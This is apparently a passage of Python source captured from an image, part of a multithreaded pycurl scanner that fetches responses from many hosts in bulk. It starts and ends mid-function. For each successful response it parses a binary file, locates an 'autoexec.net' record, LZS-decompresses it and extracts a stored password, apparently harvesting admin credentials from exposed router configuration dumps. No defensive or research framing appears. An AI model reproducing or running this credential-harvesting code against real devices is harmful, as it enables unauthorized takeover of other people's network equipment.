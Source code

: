                             c.head = StringIO()
                            c.setopt(pycurl.HEADERFUNCTION, c.head.write)
                            c.body = StringIO()
                            c.setopt(pycurl.WRITEFUNCTION, c.body.write)
                            self.m.cpool.append(c)
                            self.m.add_handle(c)
                    except Queue.Empty:
                        break

            num = len(self.m.cpool)
            if 0 == num:
                if QueueInWorkerExit:
                    self.queue_out.put(None)
                    break
                else:
                    continue
            while True:
                ret, num_ret = self.m.perform()
                if pycurl.E_CALL_MULTI_PERFORM != ret:
                    break

            while True:
                num_ret, ok_list, error_list = self.m.info_read()
                for c in ok_list:
                    head = AnyToSth(c.head.getvalue())
                    if '(error)' == head:
                        server = '(error)'
                    else:
                        try:
                            server = re.search('Server: ([^\\r\\n]+)', head, re.U).group(1)
                            server = AnyToSth(server, 'gbk')
                        except AttributeError:
                            server = None

                    code = c.getinfo(pycurl.HTTP_CODE)
                    password = None
                    if 200 == code:
                        buf = c.body.getvalue()
                        end = len(buf)
                        index = 8192
                        while index + 20 <= end:
                            name = readstr(buf, index + 6)
                            if 'autoexec.net' == name:
                                offset = readb16(buf, index + 4) + 12 + 4
                                size = readb16(buf, index + 2) - 12 - 4
                                if 8192 + offset > end or 8192 + offset + size > end:
                                    break
                                data = LZSDecompress(buf[8192 + offset:8192 + offset + size])
                                if len(data) > 20:
                                    password = readstr(data, 20)
                                break
                            index += 20
